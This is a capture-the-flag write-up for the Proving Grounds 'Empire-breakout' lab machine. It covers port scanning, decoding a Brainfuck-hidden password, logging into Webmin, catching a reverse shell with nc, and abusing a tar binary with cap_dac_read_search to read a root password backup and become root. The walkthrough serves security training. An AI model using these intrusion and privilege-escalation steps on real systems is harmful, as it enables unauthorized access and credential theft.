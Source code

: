 ```yaml
---
title: "Proving grounds Play: Empire-breakout"
layout: post
date: 2023-10-01 03:00
categories: writeup
---
```


Proving grounds Play - Empire-Breakout CTF writeup.

## Nmap

```sh
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.51 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.51 (Debian)
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http    MiniServ 1.981 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: C7F93A5D476A64454D4E271B24571406
|_http-title: 200 &mdash; Document follows
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: MiniServ/1.981
20000/tcp open  http    MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
|_http-favicon: Unknown favicon MD5: 953B40D37322DDEFEEC092BC48AEA904
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: MiniServ/1.830
```

## SMB Username Enumeration

Using `enum4linux` the username cyber has been discovered.

## 80/tcp - open  http - Apache httpd 2.4.51 ((Debian))

![img](/assets/images/CTF/Proving_Grounds/Empire-breakout/web.png)

There is a encrypted text commented in the source code of the apache page `view-source:http://192.168.240.238/`.

```html
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
-->
```

## Cipher Analysis

[https://www.dcode.fr/cipher-identifier](https://www.dcode.fr/cipher-identifier)

![img](/assets/images/CTF/Proving_Grounds/Empire-breakout/analysis1.png)

**Brainfuck**

![img](/assets/images/CTF/Proving_Grounds/Empire-breakout/analysis2.png)

Upon analysis the algorithm of the encrypted text has been discovered which is `Brainfuck`.

## Brainfuck decode

[https://www.splitbrain.org/_static/ook/](https://www.splitbrain.org/_static/ook/)

**Decoded text**

```text
.2uqPEfj3D<P'a-3
```

## 20000/tcp - open  http - MiniServ 1.830 (Webmin httpd)

![img](/assets/images/CTF/Proving_Grounds/Empire-breakout/web2.png)

Login to the portal using the username `cyber` and password `.2uqPEfj3D<P'a-3`.

Click on the interactive shell and create a reverse shell connection.

![img](/assets/images/CTF/Proving_Grounds/Empire-breakout/shell.png)

```sh
naveenj@hackerspace:|01:09|~/pg-play/Empire-breakout$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.45.225] from (UNKNOWN) [192.168.240.238] 55430
python3 -c 'import pty; pty.spawn("/bin/bash")'
cyber@breakout:~$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

Enumerate the machine's extended capabilities.

```sh
cyber@breakout:~$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
cyber@breakout:~$ 
```

There is a binary `tar` located in the folder `/home/cyber`, which can be used to reveal the contents of the restricted files.

Upon checking the folders there is a old password file exists in the `backups` folder.

```sh
cyber@breakout:~$ cd /var/backups
cd /var/backups
cyber@breakout:/var/backups$ ll
ll
total 484K
4.0K drwxr-xr-x  2 root root 4.0K Dec  8  2022 .
 40K -rw-r--r--  1 root root  40K Dec  8  2022 alternatives.tar.0
   0 -rw-r--r--  1 root root    0 Dec  8  2022 dpkg.arch.0
 16K -rw-r--r--  1 root root  13K Nov 17  2022 apt.extended_states.0
4.0K -rw-------  1 root root   17 Oct 20  2021 .old_pass.bak    #old password file
404K -rw-r--r--  1 root root 404K Oct 19  2021 dpkg.status.0
4.0K -rw-r--r--  1 root root 1.5K Oct 19  2021 apt.extended_states.1.gz
4.0K drwxr-xr-x 14 root root 4.0K Oct 19  2021 ..
4.0K -rw-r--r--  1 root root  186 Oct 19  2021 dpkg.diversions.0
4.0K -rw-r--r--  1 root root  135 Oct 19  2021 dpkg.statoverride.0
cyber@breakout:/var/backups$ 
```

### Exploitation

Use the tar utility to compress the old password file.

```sh
cyber@breakout:~$ ./tar -cvf old_pass.tar /var/backups/.old_pass.bak    #compress
./tar -cvf old_pass.tar /var/backups/.old_pass.bak
/var/backups/.old_pass.bak
cyber@breakout:~$ ll
4.0K drwxr-xr-x  8 cyber cyber 4.0K Oct  1 01:28 .12K -rw-r--r--  1 cyber cyber  10K Oct  1 01:28 old_pass.tar   #compressed file
4.0K -rw-r--r--  1 root  root    33 Oct  1 01:01 local.txt
4.0K drwxr-xr-x  2 cyber cyber 4.0K Oct 20  2021 .tmp
   0 -rw-------  1 cyber cyber    0 Oct 20  2021 .bash_history
520K -rwxr-xr-x  1 root  root  520K Oct 19  2021 tar
4.0K drwxr-xr-x  3 cyber cyber 4.0K Oct 19  2021 .local
4.0K drwx------ 16 cyber cyber 4.0K Oct 19  2021 .usermin
4.0K drwxr-xr-x  2 cyber cyber 4.0K Oct 19  2021 .filemin
4.0K drwx------  2 cyber cyber 4.0K Oct 19  2021 .gnupg
4.0K drwx------  2 cyber cyber 4.0K Oct 19  2021 .spamassassin
4.0K -rw-r--r--  1 cyber cyber  220 Oct 19  2021 .bash_logout
4.0K -rw-r--r--  1 cyber cyber 3.5K Oct 19  2021 .bashrc
4.0K -rw-r--r--  1 cyber cyber  807 Oct 19  2021 .profile
4.0K drwxr-xr-x  3 root  root  4.0K Oct 19  2021 ..
cyber@breakout:~$
```

Extract the compressed file to read the password file.

```sh
cyber@breakout:~$ ls
ls
local.txt  old_pass.tar  tar  var   #extracted var folder
cyber@breakout:~$ cd var
cd var
cyber@breakout:~/var$ ls
ls
backups
cyber@breakout:~/var$ cd backups
cd backups
cyber@breakout:~/var/backups$ ll
ll
total 12K
4.0K drwxr-xr-x 2 cyber cyber 4.0K Oct  1 01:32 .
4.0K drwxr-xr-x 3 cyber cyber 4.0K Oct  1 01:32 ..
4.0K -rw------- 1 cyber cyber   17 Oct 20  2021 .old_pass.bak   #password file
cyber@breakout:~/var/backups$ cat .old_pass.bak
cat .old_pass.bak
Ts&4&YurgtRX(=~h    #password
cyber@breakout:~/var/backups$
```

Switch to root user and use the password found above.

```sh
cyber@breakout:~/var/backups$ su root
su root
Password: Ts&4&YurgtRX(=~h
root@breakout:/home/cyber/var/backups# 
cd
root@breakout:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@breakout:~# 
```

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).